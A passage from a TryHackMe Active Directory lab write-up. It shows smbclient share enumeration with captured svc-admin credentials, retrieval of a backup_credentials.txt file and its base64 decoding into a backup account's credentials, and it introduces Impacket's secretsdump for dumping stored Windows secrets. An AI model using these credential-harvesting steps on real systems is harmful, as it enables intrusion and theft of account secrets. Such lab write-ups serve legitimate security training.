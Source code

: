 So now, we have svc-admin account credentials.

## **SMB Exploitation**

### **Recon**

```bash
┌──(teiiko㉿kali)-[~]
└─$ smbclient -U svc-admin -L 10.10.32.16
Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```
We can notice an interesting shared folder: `backup`. Let's try to get an access.
### **Gaining access**

```bash
┌──(teiiko㉿kali)-[~]
└─$ smbclient \\\\10.10.32.16\\backup -U svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3637136 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)
smb: \> exit
```
After downloading the backup_credentials.txt file on my local machine, i recognized a base64-encoded string. So I just decoded the string as following, and get backup user credentials.
```
┌──(root㉿kali)-[/home/teiiko/Bureau/TryHackMe/Attacking_AD]
└─# cat backup_credentials.txt | base64 -d
backup@spookysec.local:[REDACTED]
```

## **Secretsdump**

`secretsdump.py` script is a tool in the Impacket suite that allows to get stored credential information on a local or remote Windows system using password extraction techniques. It can be used to retrieve passwords for local accounts, domain accounts, encryption keys, service secrets, Kerberos keys, session tokens, and TGT tickets. 
